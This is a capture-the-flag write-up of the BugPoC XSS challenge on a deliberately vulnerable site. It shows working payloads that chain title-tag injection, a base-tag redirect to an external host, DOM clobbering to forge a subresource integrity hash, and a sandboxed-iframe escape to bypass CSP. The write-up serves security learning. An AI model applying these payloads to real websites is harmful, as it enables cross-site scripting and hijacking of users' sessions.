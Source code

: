 # BugPoC XSS Challenge
[Announcement on HackerOne](https://hackerone.com/bugpoc/updates) *(04.11.20 - 09.11.20)*
```
Rules
1. You must alert(origin) showing https://wacky.buggywebsite.com
2. You must bypass CSP
3. It must be reproducible using the latest version of Chrome
4. You must provide a working proof-of-concept on bugpoc.com
```
## Introduction
This blog post will describe how I solved the XSS challenge by BugPoc. As always when enumerating webpages, we should use an interception proxy to  keep track of all the requests. I will use `Burp Suite` to intercept requests and the `FoxyProxy` plugin to configure the browser's proxy settings. As written in the rules, we need to use the current version of the `Chrome Browser`.

## Enumeration
The target is `https://wacky.buggywebsite.com`, which looks like this.

![Website https://wacky.buggywebsite.com](./pictures/bugpoc-xss/defaultwacky.png)

When first visiting the website and redirecting the traffic through Burp, the following requests get captured.

![First Requests while loading the website](./pictures/bugpoc-xss/firstrequests.png)

One of the first things I recognized is, that when clicking at `Make Whacky!` I don't see any additional requests in Burp. Everything will be loaded from cache. Only when changing the content of the text box to a new value, a new request will be send to the server. When testing for xss and entering some special characters into the textbox, everything gets deleted instantly. So I checked the `/script.js` next. 

![script.js](./pictures/bugpoc-xss/scriptjs.png)

The first part of the script checks if the chrome browser is used. The second part will remove all special characters after a key was pressed and the last part will create the request, when pressing the button. 

To check for xss I entered something to the textbox, clicked the button and intercepted the request. I changed the value of `param` to a default xss value like `<script>alert()</script>` and url encoded it.

![Interception of a request in Burp](./pictures/bugpoc-xss/firstintercept.png)

Of course I didn't get an alert afterwards, but let's look at the results. The website is displaying it as default text only.

![Injected XSS string](./pictures/bugpoc-xss/scriptwacky.png)

Let's take a closer look to the response in Burp. We see our code in two places of the response.

![Script in Title Tags](./pictures/bugpoc-xss/scriptintitle.png) ![Script in Textbox](./pictures/bugpoc-xss/scriptintextbox.png) 

The second part got encoded and will be displayed in the website, which won't help, but the first part is interesting. I wrote inside the `<title>` tag and it's not html encoded. There is also the `content-security-policy`, which is explained [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy). It allowes scripts with a valid `nonce` only, which will be generated randomly by every request. 

I googled for ways to bypass the CSP or the nonce and came up whith the `<base>` tag. (Later I found a very easy way to check the CSP for weak configurations. [CSP Evaluator](https://csp-evaluator.withgoogle.com/)) The `base-uri` sets allowed urls and block everything else, but it's not set inside the CSP. It's possible to set a [base](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/base) inside the HTML code, which will be used for all scripts with relative paths and luckily there is one in the source code.

![Script with relative path](./pictures/bugpoc-xss/scriptrelativepath.png)

The script uses the relative path `files/analytics/js/frame-analytics.js`, which prints some information to the console log in Chrome.

![Script frame-analytics.js](./pictures/bugpoc-xss/frame-analyticsjs.png)

I tried to redirect the script to my own domain by setting up an `Mock Endpoint` on [BugPoc](https://bugpoc.com/) and an `Redirection URL`, which points to the enpoint. It didn't work without the redirection because the script will load with the base url and the relative path, which won't work with the endpoint. The redirection url will catch the call to the url and redirect it to our endpoint. Back to the xss... 

## Exploit

First the title tag needs to be closed. After that the base tag can be injected, which will change the path of the script. This results in the following code: 
```
</title><base href="https://qbxfs9wso8pi.redir.bugpoc.ninja/">
```
When intercepting the request with Burp and changing the value of param I got the following result.

![Script got redirected](./pictures/bugpoc-xss/redirectedbutblocked.png)

The script was successfully redirected, but blocked because of a wrong file integrity hash. I needed to bypass that file integrity... 
```
window.fileIntegrity = window.fileIntegrity || {
    'rfc' : ' https://w3c.github.io/webappsec-subresource-integrity/',
    'algorithm' : 'sha256',
    'value' : 'unzMI6SuiNZmTzoOnV4Y9yqAjtSOgiIgyrKvumYRI6E=',
    'creationtime' : 1602687229
}
// verify we are in an iframe
if (window.name == 'iframe') {
    
    // securely load the frame analytics code
    if (fileIntegrity.value) {
			
        // create a sandboxed iframe
        analyticsFrame = document.createElement('iframe');
        analyticsFrame.setAttribute('sandbox', 'allow-scripts allow-same-origin');
        analyticsFrame.setAttribute('class', 'invisible');
        document.body.appendChild(analyticsFrame);

        // securely add the analytics code into iframe
        script = document.createElement('script');
        script.setAttribute('src', 'files/analytics/js/frame-analytics.js');
        script.setAttribute('integrity', 'sha256-'+fileIntegrity.value);
        script.setAttribute('crossorigin', 'anonymous');
        analyticsFrame.contentDocument.body.appendChild(script);
    }
```
After carefully analyzing the code I recognized the difference in `window.fileIntegrity` and `fileIntegrity.value`. It's possible to use it in both ways.

I could set a new FileIntegrity.value by adding an object with the same name. This type of vulnerability is called [DOM clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering). I changed the script on the `Mock Endpoint` and created a new redirection url.

![First Mock Endpoint](./pictures/bugpoc-xss/mockendpointfirst.png)
![First Redirection URL](./pictures/bugpoc-xss/redirectorfirst.png)

The hash can be calculated easily, which can be found [here](https://w3c.github.io/webappsec-subresource-integrity/#integrity-metadata-description). I downloaded my script by following my redirection url and used the following command to calculate the hash.
```
cat exploit.js | openssl dgst -sha256 -binary | openssl base64 -A
```
This resulted in the following xss:
```
</title><base href="https://zmcckylbygi1.redir.bugpoc.ninja/"><input type="hidden" id="fileIntegrity" value="9a8YfL2BJMHZ6DfMuqE+tymKOGihIn6qdm3OpwrXjN0=">
```
![Successfully injected the hash](./pictures/bugpoc-xss/redirectedbutnoalert.png)

I successfully injected the hash but I couldn't execute an alert message, which is part of the rules. 
```
// create a sandboxed iframe
analyticsFrame = document.createElement('iframe');
analyticsFrame.setAttribute('sandbox', 'allow-scripts allow-same-origin');
analyticsFrame.setAttribute('class', 'invisible');
document.body.appendChild(analyticsFrame);
```
The script loads inside of an iframe with the sandbox [attribute](https://www.w3schools.com/tags/att_iframe_sandbox.asp). But there are also the attributes allow-scripts and allow-same-origin, which can be abused. I found [this article](https://danieldusek.com/escaping-improperly-sandboxed-iframes.html) about escaping from sandboxed iframes. The `window.parent` [property](https://developer.mozilla.org/en-US/docs/Web/API/Window/parent) is a reference to the parent window and can be used to create objects outside of the iframe. 

At this point I made it much more difficult. Somehow I decided to create a new iframe on the website and attach a new script to it instead of just creating the alert. This can easily be done by `window.parent.alert(origin);` instead of `window.alert(origin)`. [0xTyrox](https://twitter.com/0xtyrox) drew my attention on this afterwards. Just changing the sandbox property of the iframe won't work. The browser will still block the content and ignore the change.

After changing the hosted script and recalculating the hash I ran the xss again. 

![Successfull XSS](./pictures/bugpoc-xss/xssalert.png)
![Successfull XSS](./pictures/bugpoc-xss/xssalert2.png)

## Proof of Concept
There was one last part that I needed to bypass. It was part of the rules to provide a working poc on BugPoc where I can't intercept requests by Burp. When making a request to `https://wacky.buggywebsite.com/frame.html?param=abc` directly, I got a different result.

![Error when accessing the URL](./pictures/bugpoc-xss/failureframe.png)

The script includes a check if the current window is named `iframe`.
```
if (window.name == 'iframe') {
    
    // securely load the frame analytics code
    if (fileIntegrity.value) {
        [...]
    }

} else {
    document.body.innerHTML = `
    <h1>Error</h1>
    <h2>This page can only be viewed from an iframe.</h2>
    <video width="400" controls>
        <source src="movie.mp4" type="video/mp4">
    </video>`
}
```	
So why not changing the value of `window.name` before visiting the website? It will stay the same when changing to a different website.
```
window.name = "iframe";
```
And finally a fully working exploit.

### You can run my proof of concept on BugPoC:
> [BugPoc XXS Challenge - XSS on wacky.buggywebsite.com](https://bugpoc.com/poc#bp-7qAf5r2T) 

> Password: `giGgLYbonObo95`

Maybe you also wanna take a look at [0xTyrox's](https://tyrox.blog) Writeup.